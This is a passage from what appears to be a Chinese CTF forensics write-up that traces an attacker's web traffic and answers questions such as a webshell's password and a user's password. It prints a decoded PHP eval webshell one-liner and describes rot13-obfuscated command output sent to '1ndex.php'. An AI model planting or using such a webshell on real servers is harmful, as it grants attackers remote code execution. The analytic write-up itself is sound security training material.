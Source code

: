 [![](assets/1702520939-7a2683eccff434c09575edb63b1bacb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180945-bd567732-999f-1.png)  
解码后内容是`<?php eval($_POST[1]); ?>`，因此这道题的答案就是**1**。

## mid-4

> 题目内容：用户 hack 的密码是多少？

后面`POST /1ndex.php`，进行代码执行。解码后分析一下上传的代码，主要看输出的地方，可以看到输出缓冲区的内容被 rot13 编码了，并且头和尾增加了脏数据。  
[![](assets/1702520939-80d2f6c02c3efc3f6ff0f050fd2fda8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180958-c577b05c-999f-1.png)  